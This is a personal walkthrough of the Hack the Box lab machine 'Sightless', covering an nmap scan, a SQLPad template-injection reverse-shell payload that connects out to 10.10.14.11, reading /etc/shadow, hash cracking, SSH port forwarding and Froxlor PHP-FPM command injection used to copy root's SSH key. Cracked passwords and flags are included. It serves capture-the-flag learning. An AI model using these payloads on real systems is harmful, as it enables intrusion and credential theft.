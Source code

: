 ```yaml
---
title: Sightless - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sightless.png
---
```

### Scan
```
└─$ nmap -sV -sC -p- --open 10.10.11.32
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-09 14:50 EDT
Nmap scan report for 10.10.11.32
Host is up (0.12s latency).
Not shown: 56430 closed tcp ports (conn-refused), 9102 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/9%Time=6706D0C3%P=aarch64-unknown-linux-g
SF:nu%r(GenericLines,A0,"220 ProFTPD Server \(sightless\.htb F
SF:TP Server\) \[::ffff:10\.10\.11\.32\]
500 Invalid comman
SF:d: try being more creative
500 Invalid command:
SF:0try being more creative
");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.18 seconds
```

### Enum
lmao ftp prolly no go and ssh late stage
etx host
gobuster and wfuzz come up empy, but browsing sight we find sqlpad.sightless.htb. add to etc hosts
we find its version 6.10.0. Theres a vuln! https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb
follow the procedure to make connection with payload
`{{ process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"') }}`
Once we click test, we've got root. weird asf no access. we've got root as svc?
cat /etc/shadow for hashes
take and crack michael hash with john
`insaneclownposse`. now ssh in

USER:c73af69fadc2c24d1687ad3ac5154fd5

when we `netstat -tnlp`, we see port 8080 servicing, where it didnt in our scans
port forward ssh with `ssh -v -N -L 8080:localhost:8080 michael@sightless.htb`
visit `http://127.0.0.1:8080`, were met with a froxlor login
install brave >:( and go to `brave://inspect/#devices` . run netstat again and forward every port => 3 digits.
3306, 8080, 44905, 44603, 33060, 3000, 37761. create instances for all of these in brave until the froxlor appears
then, inspect, go to network tab, and probe index php and wait for the login. it'll be under payload. what the fuck
![Image](/assets/Screenshot 2024-10-09 at 4.45.19 PM (2).png)
`ForlorfroxAdmin`
we're in ![Image](/assets/Screenshot 2024-10-09 at 4.47.43 PM.png)
We can see a php configuration that allows command injection. lets copy rt flag to tmp dir. you could also copy root rsa to tmp dir and ssh in that way. ill do the latter.
create new php version under fpm versions.
put this command in `cp /root/.ssh/id_rsa /tmp/id_rsa`
then, go to system setting, php fpm, and stop and restart the service. saving each time.

```
cp /root/root.txt /tmp/root.txt
```
check to see if there, then update perms same way
`chmod 644 /tmp/root.txt`
fuck this box omm
ROOT:859ac83ce4810139ed542f1d23aee710

